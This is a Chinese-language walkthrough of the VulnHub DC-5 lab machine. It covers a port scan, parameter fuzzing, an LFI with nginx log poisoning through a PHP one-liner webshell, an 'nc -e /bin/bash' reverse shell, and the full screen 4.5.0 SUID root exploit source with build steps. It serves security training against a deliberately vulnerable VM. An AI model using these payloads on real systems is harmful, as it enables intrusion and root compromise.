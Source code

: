 # DC 5

下载地址：https://download.vulnhub.com/dc/DC-5.zip

## 实战演练

发现靶场IP：`192.168.32.162`

![image-20220623103141938](../../.gitbook/assets/image-20220623103141938.png)

扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.162                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 23:22 EDT
Nmap scan report for 192.168.32.162
Host is up (0.00019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
111/tcp   open  rpcbind 2-4 (RPC #100000)
39437/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:E8:1B:52 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```

浏览器访问80端口

![image-20220623153608129](../../.gitbook/assets/image-20220623153608129.png)

有一个反馈页面，提交数据之后，刷新页面会发现年份会进行改变

![image-20220623154157130](../../.gitbook/assets/image-20220623154157130.png)

![image-20220623154226384](../../.gitbook/assets/image-20220623154226384.png)

对参数进行暴力破解，发现`file`参数

```
┌──(root💀kali)-[/opt]
└─# wfuzz --hh 851 -w burp-parameter-names.txt -u http://192.168.32.162/thankyou.php?FUZZ=
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.32.162/thankyou.php?FUZZ=
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000002206:   200        42 L     63 W       835 Ch      "file"                                              

Total time: 6.369654
Processed Requests: 6453
Filtered Requests: 6452
Requests/sec.: 1013.084
```

该参数存在LFI漏洞

![image-20220623155323649](../../.gitbook/assets/image-20220623155323649.png)

查看nginx日志：`/var/log/ngnix/access.log`

![image-20220623155555772](../../.gitbook/assets/image-20220623155555772.png)

使用BURP输入一句话木马

```
<?php system($_GET['cmd']) ?>
```

```
GET /thankyou.php?file=<?php system($_GET['cmd']) ?> HTTP/1.1
Host: 192.168.32.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

![image-20220623160521500](../../.gitbook/assets/image-20220623160521500.png)

> 注：不可以直接在浏览器请求，不然会转义
>
> <img src="../../.gitbook/assets/image-20220623155642730.png" alt="image-20220623155642730" data-size="original"> <img src="../../../SecNote/.gitbook/assets/image-20220623160237894.png" alt="image-20220623160237894" data-size="original">

使用反弹shell进行连接

```
view-source:http://192.168.32.162/thankyou.php?file=/var/log/nginx/error.log&cmd=nc%20-e%20/bin/bash%20192.168.32.130%2017777
```

![image-20220623161856190](../../.gitbook/assets/image-20220623161856190.png)

查看suid的进程

```
www-data@dc-5:~/html$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

查看screen的提权漏洞

![image-20220623162644849](../../.gitbook/assets/image-20220623162644849.png)

直接提权会失败，因为环境缺乏gcc

![image-20220623163011898](../../.gitbook/assets/image-20220623163011898.png)

将需要GCC的代码拆分出来

libhax.c

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

41154.sh

```
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

编译

```
┌──(root💀kali)-[/tmp]
└─# gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
                                                                                                                     
┌──(root💀kali)-[/tmp]
└─# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
```

打包EXP

```
┌──(root💀kali)-[/tmp]
└─# tar -cvf exp.tar.gz 41154.sh libhax.so rootshell
41154.sh
libhax.so
rootshell
```

提权成功

![image-20230208134225444](../../.gitbook/assets/image-20230208134225444.png)
